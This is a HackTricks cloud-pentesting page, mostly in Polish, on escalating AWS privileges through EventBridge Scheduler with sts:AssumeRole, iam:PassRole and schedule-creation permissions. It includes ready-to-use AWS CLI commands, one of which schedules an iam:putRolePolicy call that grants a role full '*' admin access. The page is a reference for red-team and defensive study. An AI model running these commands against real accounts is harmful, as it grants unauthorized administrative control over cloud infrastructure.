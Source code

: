 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler może być używany do eskalacji uprawnień poprzez planowanie wywołań do różnych usług AWS. Wykorzystując zdolność do wywoływania usług na podstawie harmonogramu, użytkownicy z wystarczającymi uprawnieniami mogą eskalować uprawnienia. Oto niektóre z kluczowych działań, które EventBridge Scheduler może wywołać, używając szablonowych celów:

- Lambda: lambda:InvokeFunction - Wywołaj funkcje Lambda zgodnie z harmonogramem.
- CodeBuild: codebuild:StartBuild - Rozpocznij projekty AWS CodeBuild.
- CodePipeline: codepipeline:StartPipelineExecution - Wyzwól wykonania AWS CodePipeline.
- ECS: ecs:RunTask - Uruchom zadania ECS.
- EventBridge: events:PutEvents - Umieść zdarzenia w EventBridge.
- Inspector: inspector:StartAssessmentRun - Rozpocznij oceny Amazon Inspector.
- Kinesis: kinesis:PutRecord - Umieść rekordy w strumieniach Kinesis.
- Firehose: firehose:PutRecord - Umieść rekordy w strumieniach dostarczania Firehose.
- SageMaker: sagemaker:StartPipelineExecution - Rozpocznij wykonania potoków SageMaker.
- SNS: sns:Publish - Publikuj wiadomości do tematów SNS.
- SQS: sqs:SendMessage - Wyślij wiadomości do kolejek SQS.
- Step Functions: states:StartExecution - Rozpocznij wykonania AWS Step Functions.

To tylko niektóre z szablonowych działań, które EventBridge Scheduler może wykonać. Jednak korzystając z uniwersalnych celów, można wywołać wiele innych działań w usługach AWS. Uniwersalne cele pozwalają na bardziej rozbudowane operacje API poza szablonową listą.

Więcej informacji o EventBridge Scheduler w:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `sts:AssumeRole`, `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Użytkownicy z uprawnieniami `sts:AssumeRole`, `iam:PassRole` oraz `scheduler:CreateSchedule lub scheduler:UpdateSchedule` mogą eskalować uprawnienia, wykorzystując EventBridge Scheduler do wywoływania usług przy użyciu roli z wyższymi uprawnieniami.

Dzięki tym uprawnieniom, atakujący może przyjąć rolę z podwyższonymi uprawnieniami i przekazać tę rolę do EventBridge Scheduler podczas tworzenia lub aktualizacji harmonogramu. Harmonogram można skonfigurować do wykonania dowolnych działań wymienionych wcześniej, takich jak wywoływanie funkcji Lambda, uruchamianie zadań ECS, wyzwalanie wykonania CodePipeline lub jakiejkolwiek operacji z 270 usług AWS wspieranych przez EventBridge Scheduler. Poprzez planowanie tych działań, atakujący mógłby nadużyć wyższych uprawnień do wykonywania nieautoryzowanych operacji w usługach AWS.
\\

Na przykład, mogliby skonfigurować harmonogram do wywołania funkcji Lambda, która jest szablonowym działaniem:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
Oprócz ztemplatyzowanych działań serwisowych, możesz używać uniwersalnych celów w EventBridge Scheduler, aby wywołać szeroki zakres operacji API dla wielu usług AWS. Uniwersalne cele oferują elastyczność w wywoływaniu prawie każdego API. Jednym z przykładów może być użycie uniwersalnych celów dodających "AdminAccessPolicy", używając roli, która ma politykę "putRolePolicy":
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## References

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
